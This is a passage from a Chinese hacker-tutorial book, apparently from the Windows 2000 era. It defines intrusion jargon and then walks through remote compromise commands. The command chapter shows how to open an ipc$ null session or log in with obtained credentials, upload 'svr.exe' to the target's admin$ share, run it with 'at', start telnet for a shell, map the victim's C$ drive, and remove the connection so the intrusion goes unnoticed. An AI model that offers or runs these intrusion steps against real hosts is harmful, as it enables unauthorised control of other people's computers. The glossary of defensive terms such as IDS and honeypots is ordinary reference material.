Windows 2000 故障恢复控制台是命令行控制台，可以从 Windows 2000 安装程序启动。使用故障恢复控制台，可以启动和停止服务，格式化驱动器，在本地驱动器上读写数据（包括被格式化为 NTFS 的驱动器），执行许多其他管理任务。如果需要通过从软盘或 CD-ROM 复制一个文件到硬盘来修复系统，或者需要对一个阻止计算机正常启动的服务进行重新配置，故障恢复控制台将特别有用。



### 什么是批处理文件？

批处理文件，顾名思义，就是用来处理多个任务时使用的。例如，我要执行两个命令：`dir c:\` 和 `del c:\test.exe`，那么我就可以建立一个 `test.bat` 文件（名字可以随意起），在里面写上三行命令：

```bat
@echo off
dir c:\
del c:\test.exe
```

这样，直接执行 `test.bat` 文件就完成了上述两个命令，而不需要一个一个命令去输入了，节省了时间。

### 什么是代理服务器？

代理服务器的主要意义在于“代理”，也就是说，无论访问哪个 web 站点，都不是你去直接访问，而是要它“代理”你去访问，然后它把访问到的信息再返回给使用者。

### 什么是肉鸡？

当成功入侵并攻击了一台网络上的主机的时候，这台主机将完全受控于入侵者，这样这台计算机就叫做入侵者的肉鸡。

### 什么叫做跳板？

其实，跳板和代理服务器很相似。一般来说，入侵者会将自己攻占的肉鸡做成一个代理服务器，这样入侵者就利用这个代理服务器继续去入侵其他计算机。这时候，中间使用的这个代理服务器就叫做跳板。

### 什么是弱口令？

强度不够、容易被猜解的，类似 `123`、`abc` 这种口令，都叫做弱口令。当然，除了这些以外还有一些，例如口令为空，这是最致命的。还有就是口令和用户名相同，这样的口令也非常容易被猜解。

### 什么是 ActiveX？

这是微软开发的一项技术，该技术可以用于动画、数据和计算机代码等对象。但是，正是因为这些，使得危险也无处不在，它也可以被恶意代码利用，成为网页恶意代码的帮凶。

### 什么是 applets？

大家应该经常可以见到“JAVA Applets”这个词吧。Applets 就是指镶嵌于 web 页面中的一些小程序，JAVA applets 是最常见的。

### 什么是 MIME？

MIME（Multi-purpose Internet Mail Extensions）是控制 web 上大部分文件传输的协议。我们的 IE 浏览器就是使用 MIME 来识别不同类型文件的。


### 什么是 PE 文件？

PE 文件是 MICROSOFT 设计的一种新文件格式：PORTABLE EXECUTABLE FILE FORMAT（即 PE 格式），该格式应用于所有基于 WIN32 的系统：WINDOWS NT、WINDOWS 2000 及 WINDOWS 95/98。

### 什么是 VRML？

VRML（Virtual Reality Modeling Language）。

是一种用于 web 上放置交互式三维世界的编程语言。很好玩，有兴趣的朋友可以好好学习。

### 什么是 webDAV？

webDAV（Web-based Distributed Authoring and Versioning）。

It is a set of extensions to the HTTP protocol which allows users to collaboratively edit and manage files on remote web servers.（摘自 webdav.org）

其大概意思就是说，webDAV 是 HTTP 协议的一个扩展，它能够帮助用户通过 HTTP 协议在远程 web 服务器上完成共同协作和管理文件。

关于 webDAV 的更多内容，有兴趣的朋友可以参看 RFC 2518。

### 什么是穷举？

穷举是指那种利用字典档一个个试密码的入侵方法。这种方法适于各种拥有密码验证机制的系统或软件，但它并不能保证成功。穷举的工作原理是这样的：攻击者先选择一个字典，这里所说的字典是指那些包含很多常见单词的文本文档，然后攻击者使用攻击软件从字典档里抽取一个单词，用它作为密码来尝试通过密码验证，如果不是则抽取下一个单词试，一直试到破解密码或用完所有字典档中的单词为止。

有些时候一些密码是经过加密的，而这些加密过的密码文件以文件形式存在于系统中，一些入侵者可以通过各种方法得到这些存放密码的文件。等他们研究出这种密码的加密方法以后，也可以通过穷举方式来取得真正的密码。和上面的方法几乎一样，只不过这回入侵者先要把字典档中的单词使用与密码文件相同的加密方法进行加密，然后把加密过的单词跟密码文件中加密后的密码进行对照，看它们是否一样。

总之，穷举破解的方法，是对入侵者耐性的挑战（如果你不够幸运的话）。

### 什么是“rootkit”？

不要被它的名字诱惑，这个所谓的“rootkit”可不是给超级用户 root 用的，它是入侵者在入侵一台主机后用来做善后工作的程序包。这个程序包里通常包括日志清理器、后门等程序。同时，程序包里通常还带有一些伪造的、原本属于系统本身的程序。这样的话，管理员在试图通过这些命令查询系统状况的时候，就无法通过这些假的系统程序发现入侵者的行踪。原来 rootkit 只出现在 Unix/Linux 里，比较有名的有“T0rn”“LKM”等。但近几年，也有程序员开发出了运行在 Windows NT/2000 的 rootkit。

### 什么是 IDS？

入侵检测系统，用于在黑客（或骇客）发起攻击时或发起攻击前检测到攻击并加以阻拦。切记，IDS 不同于防火墙。防火墙只能屏蔽入侵，而 IDS 则可以在入侵发生前根据一些信息检测到即将发生的攻击或入侵并做出反应。

### 什么是 NIDS？

网络入侵检测系统。

### 什么是 NNIDS？

网络节点入侵检测。

### 什么是 HIDS？

主机入侵检测。

### 什么是蜜罐？

蜜罐（Honeypots）可以模拟脆弱性主机，提供攻击目标。蜜罐主机不提供其它任何服务，因此所有连接到蜜罐主机的连接都可能是攻击。蜜罐的另一个目的就是诱惑攻击者在其上浪费时间，延缓对真正目标的攻击。

### 什么是 DoS 攻击？

拒绝服务式攻击，发送大量无用数据占用被攻击主机的系统资源，使主机对其他请求无法进行任何响应，甚至可使主机宕机，形成拒绝服务式攻击。

### 什么是 DDoS 攻击？

最常见的一种 DoS 攻击，名为分布式拒绝服务攻击。

### 什么是溢出攻击？

溢出漏洞是最常见的一种漏洞，其引起原因是某些程序在向内存装入数据过程中，没有很好地检测数据长度而导致装入的数据过长，从而在有限的内存空间中产生溢出。如果溢出严重，可能会使黑客（or 骇客）在主机上执行任意代码，后果非常严重。例如我们经常见到的 ida、idq 溢出。

### 什么是 Smurf 攻击？

Smurf 攻击以最初发动这种攻击的程序名 Smurf 命名。这种攻击方法发送广播地址的 ping，放大器网络向欺骗地址——攻击目标系统返回大量 ICMP 回复消息，引起目标系统拒绝服务。

### 什么是 Trojans 攻击？

木马攻击。就是给被入侵的主机种植木马服务端，以达到远程控制主机的目的。

### 什么是 Hijack 攻击？

也叫抢夺式攻击。假设这样一个环境：一台 IP 为 2.2.2.2 的主机被我入侵，然后我在那台主机上做点手脚，让所有向该主机端口 80（web 服务）的请求都转发到我的机器上。这时候我再在我的机器上模仿 2.2.2.2 这台主机的 web 页面做一个相似页面。当有人访问 2.2.2.2 的时候，实际上就是连接到了我的主机上。这时候，如果他要输入密码或一些敏感信息，一切都会在我的监视和控制下。这样我就轻松获得了访问 2.2.2.2 的用户信息甚至密码，这就形成了一个简单的抢夺攻击。

### Win2k 三个常见版本的缩写

- Windows 2000 Professional：`win2k pro`
- Windows 2000 Server：`win2k svr`
- Windows 2000 Advanced Server：`win2k adv_svr`

其他没什么好说的，但是有些缩写不小心写错会出笑话，还有两个要注意的：

- `svr = server`
- `srv = service`

## 第6章 Win2k 常用命令集

说明：所有命令中的 `\\ip` 都可以用“`\\主机名`”来代替，但前提是必须在同一个局域网内。因为在很多情况下，同一局域网内使用主机名进行通信要比使用 IP 通信快，所以下面的命令中大多使用主机名格式，例如 `\\python`。

### 在 Win2k 里有个 cmd.exe，那是什么东西？和 Win98 的 MS-DOS 一样吗？

Win2k 里是没有 Win98 下类似 MS-DOS 的工具的。`cmd.exe` 叫做命令提示符，是不同于 Win98 下 MS-DOS 的一个 shell。可以用它来执行很多常见的 DOS 命令，如 `dir`、`cd` 等等……但是，绝对不能将 MS-DOS 和 `cmd.exe` 混为一谈。

### 什么是内部命令和外部命令？

简单地讲，内部命令就是可以在 cmd 下直接执行的命令，例如 `dir` 命令。而外部命令则不同，不能直接在 cmd 下使用，而是要在 cmd 中切换到该命令所在目录下再输入命令才可以执行。例如我们常用的工具 NC，就是一个命令行工具，我们必须将提示符转到其目录下才可以运行使用。

### 我想知道，在 cmd 中的快捷键都有什么？

在 cmd 中确实存在不少快捷键和功能键，这里做个小总结：

- **PageUp、PageDown**：重新调用最近的两条命令。
- **↑ ↓**：在前面已输入过的命令中按先后顺序逐条重新调用命令。
- **← →**：在命令行移动光标，可以对已经输入的命令行进行编辑。
- **Insert**：切换命令行编辑的插入与改写状态。正常情况下，光标为插入状态，例如输入了 `abc` 后，再将光标移动至字母 `c` 上并输入 `d`，会成为 `abdc`；如果按一下 Insert 键后再输入 `d`，则会成为 `abd`。可见，改写模式就是替换当前字符。替换和插入模式没有明显区别，只是光标宽窄有所不同：替换模式的光标会比较粗，而插入模式的光标相对要窄一些（图 6-1）。
- **Home、End**：快速移动光标到命令行开头或结尾。
- **Delete**：删除光标后面的字符。



Enter：

复制窗口内选定的内容。先使用鼠标按住左键选择要 copy 的部分，然后按回车，即可复制被选中的部分内容。

鼠标右键：

在 cmd 中该键可以粘贴内容。例如用上面的方法复制完成后，在 cmd 窗口中再点一下鼠标右键即可把内容贴上去。

F7：

显示历史命令列表，可以在列表中方便地选取曾经使用过的命令（图6-2）。



图6-2

F9：

输入命令号码功能，直接输入历史命令的编号就可直接使用该命令（图6-3）。



图6-3

最好能将 F7 和 F9 两个配合在一起使用。

> 如何才能建立一个 ipc$ 空连接？

建立 ipc$ 空连接就是建立一个不需要用户名和密码、不需要系统进行验证的连接，命令为：

```bash
net use \\ip\ipc$ /user:
```

当收到成功的提示后，到此就算是建立了一个 ipc$ 空连接了。

> 得到用户名和密码后，如何与对方系统建立连接？

常见的连接方式就是用 ipc$ 连接了，方法很简单：

```bash
net use \\ip\ipc$ "password" /user:"username"
```

这样就建立了连接。

> 与对方建立了 ipc$ 连接后，对方会不会发现？

ipc$ 名为“共享命名管道”，建立了 ipc$ 连接后，就相当于与对方主机之间建立起一条无形的连接通道。所以，如果对方对本地机与外界主机的通信进行监视的话，很容易便会发现。因此，在使用完该连接后，要尽快删除，命令为：

```bash
net use \\ip\ipc$ /del
```

> 请问如何在命令行中启动本机的 ipc 服务？

说法上是有错误的，ipc$ 并不是一个服务，而是一个特殊的管理共享。删除或是开启 ipc$ 的共享命令分别为：`net share ipc$` 和 `net share ipc$ /del`（图6-4）。



图6-4

## win2k部分

## 能不能使用命令来开启或是停止服务？

可以的。使用命令 `net start` 或是 `net stop` 就可以了。例如，开启 telnet 服务，只要用 `net start telnet` 就可以了（图6-5）。



图6-5

## 我不知道用 net start 和 net stop 命令能开启或是停止哪些服务，哪里可以查？

可以到“控制面板——>服务”里来查看服务名。另外，使用命令也是可以的，命令格式为：`net help start` 或是 `net help stop`（图6-6）。



图6-6

但是要注意，如果服务名中含有空格的话，例如这个服务“CLIENT SERVICE FOR NETWARE”，就要用引号括起来才可以。所以命令就变成：`net start(stop) "CLIENT SERVICE FOR NETWARE"`。

## 建立 ipc$ 连接后，如何上传文件？

只要用 `copy` 命令就可以了：`copy c:\svr.exe \\ip\admin$`，这样就上传文件到对方的 admin$（c:\winnt）共享文件夹下了（图6-7）。



图6-7

## 上传文件后，怎么才能运行？

建议使用最简单的方法：使用 `at` 命令。`at` 命令是用来指定 win2k 的计划任务的一个命令，使用这个命令可以指定某个程序在指定的时间运行。命令格式为：`at \\ip time svr.exe(or command)`。上面的 time 就是指定运行程序的时间，svr.exe 就是想要运行的程序。

另外，后面的括号里 `(or command)` 说明这里除了能运行程序外，还可以指定想要运行的命令，例如：`net start telnet`。这样就可以在指定的时间开启对方的 telnet 服务了，怎么样？直接就获得了一个 shell，很简单吧！

## 我想要使用 at 命令来指定任务，但是我不知道对方的主机时间，怎么运行啊？

探取对方的主机时间也可以通过命令轻松获得。在建立了 ipc$ 连接后（有时候只需要建立 ipc$ 空连接即可），就可以使用以下命令：

```bash
net time \\ip
```

建立了一个空连接后，直接用这个命令就得到了对方的系统时间（图6-8）。



## 我在使用 at 的时候，会提示我服务未启动，怎么回事？

at 这个命令是基于 Task Scheduler 这个服务的，该服务就是一个用来支持主机运行计划任务的服务。所以，如果此服务没有启动的话，将不能使用 at 命令。在本机上开启这个服务：

```bash
net start "Task Scheduler"
```

（图6-9，在这里注意这个命令，后面的服务名中因为含有空格所以用引号将其引起来，结合上面的问题5进行比较查看）。这样就可以使用 at 命令了。



## 为什么我在使用 at 命令的时候会得到一个“拒绝访问”的返回信息呢？

这种情况很有可能是因为你得到的用户权限不够。另外，也有一种情况，就是管理员做了限制，禁止用户远程运行某些或者全部他认为比较危险的命令。

## 我上传文件 svr.exe 到对方的 winnt 文件夹下，然后用 at \\ip time svr.exe，可是却总不能成功运行，为什么？

如果你上传的文件没有传至对方的 system32 目录下的话，就必须写完整的路径才可能运行程序。命令为：

```bash
at \\ip time c:\\winnt\\svr.exe
```

只有程序在对方的 system32 目录下的时候，才可以使用 `at \\ip time svr.exe` 这样的命令来直接运行。

## 在命令行下，映射对方的磁盘到本地的命令是什么？

```bash
net use x: \\ip\C$
```

这样就映射对方的 C 盘（假设 C 盘被默认共享）到本地的 X 盘了。这时候，我们就可以像使用本地资源一样来查看或是修改远程机的文件了（图6-10），当然，前提是你有足够的权限。



## 我映射了对方的磁盘，那么，现在我用什么命令才能断开映射呢？

```bash
net use x: /del
```

（其中，X 盘是你映射远程主机的磁盘），命令成功后会有提示的（图6-11）。

